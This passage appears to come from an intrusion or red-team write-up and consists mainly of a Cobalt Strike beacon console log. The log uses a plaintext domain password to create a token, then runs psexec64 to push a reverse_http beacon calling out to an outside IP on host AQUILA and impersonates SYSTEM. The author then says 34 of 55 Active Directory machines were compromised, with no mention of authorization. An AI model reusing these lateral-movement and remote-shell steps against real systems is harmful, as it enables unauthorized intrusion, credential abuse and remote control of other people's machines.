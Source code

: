 ```
beacon> make_token SHMC.LOCAL\replicant.user 166D3f75
[*] Tasked beacon to create a token for SHMC.LOCAL\replicant.user
beacon> jump psexec64 AQUILA sex
[*] Tasked beacon to run windows/beacon_http/reverse_http (173.249.45.143:80) on AQUILA via Service Control Manager (\\AQUILA\ADMIN$\a25fd0c.exe)
[+] host called home, sent: 60 bytes
[+] Impersonated NT AUTHORITY\СИСТЕМА
[+] host called home, sent: 291366 bytes
[+] received output:
Started service a25fd0c on AQUILA
```

On the **Event Logs**

```
<REDACTED> *** initial beacon from replicant.user *@172.16.0.20 (AQUILA)
```

So far we have penetrated 34 machines out of 55 on the active directory network. Not all machines are powered on due to employees have different schedules yet we didn't have to stay for long since we got what we're looking for and there isn't much to find unless we want to keep fooling around.

---
## References

* [Metasploit to Beacon Initial Foothold](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/init-access_client-side-exploits.htm#_Toc65482765)

* [SCPA Notes](https://github.com/ghostsec420/SCPA)